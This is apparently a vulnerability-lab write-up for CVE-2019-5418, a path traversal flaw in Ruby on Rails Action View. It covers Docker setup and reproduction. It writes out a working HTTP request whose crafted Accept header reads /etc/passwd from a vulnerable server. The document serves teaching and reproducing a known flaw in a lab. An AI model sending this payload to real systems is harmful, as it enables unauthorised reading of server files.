

Ruby on Rails Path Traversal and Arbitrary File Read (CVE-2019-5418)¶
Ruby on Rails is a web application framework that allows developers to build web applications quickly and easily.
There is a local file inclusion vulnerability in Ruby on Rails action view <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3.
When using render file in a controller to render views outside the application, Rails determines the file location based on the user-supplied Accept header. By sending an Accept header with the value Accept: ../../../../../../../../etc/passwd{{, attackers can exploit a path traversal vulnerability to read arbitrary files.
References:
- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://github.com/mpgn/CVE-2019-5418
- https://xz.aliyun.com/t/4448
Environment Setup¶
Execute the following command to compile and start Ruby on Rails 5.2.2:
docker compose build
docker compose up -d
After the server starts, visit http://your-ip:3000 to see the Ruby on Rails welcome page.
Vulnerability Reproduction¶
Visit http://your-ip:3000/robots to see that the normal robots.txt file is being read.
To exploit the vulnerability, send the following request to read /etc/passwd:
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Successfully read the file:
